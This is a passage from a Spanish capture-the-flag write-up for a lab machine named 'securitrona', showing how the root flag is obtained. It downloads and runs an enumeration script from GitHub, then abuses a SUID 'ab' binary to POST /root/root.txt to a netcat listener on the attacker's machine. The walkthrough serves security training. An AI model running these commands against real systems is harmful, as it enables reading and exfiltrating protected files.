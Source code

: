 ## Acceso a la flag de root.txt

Busco si hay algun binario SUID, sudo o con capabilities que este indicado en [GTFOBins](https://gtfobins.github.io/) permita elevar privilegios con mi herramienta [GTFOLenam](https://github.com/Len4m/gtfolenam).

En una carpeta con permisos de escritura ejecutamos.

```bash
wget https://raw.githubusercontent.com/Len4m/gtfolenam/main/gtfolenam.sh && chmod +x gtfolenam.sh && ./gtfolenam.sh
```

El script encuentra un binario `ab` con el bit SUID activado y ha encontrado la referencia de GTFOBins.

![GTFOLenam](../../../assets/images/securitrona/20250628_223636_image.png)

Según podemos observar en GTFOBins, podemos leer ficheros de forma privilegiada enviándolos mediante POST.

Si intentamos elevar privilegios no lo conseguiremos, o no he preparado ninguna forma intencionada de conseguirlo. Ya veremos si alguien lo consigue, pero sí podemos leer la flag de root.

En nuestra máquina atacante nos ponemos a la escucha con netcat.

```bash
nc -lvnp 8000
```

y en la maquina victima con el usuario securitrona enviamos la flag de root a nuestra maquina atacante.

```bash
ab -p /root/root.txt http://192.168.1.181:8000/onepath
```

Obtenemos la flag de root.

![Flag root](../../../assets/images/securitrona/20250628_224356_image.png)

Con esto es todo. En esta máquina no está prevista la elevación de privilegios, pero sí la lectura privilegiada de ficheros.
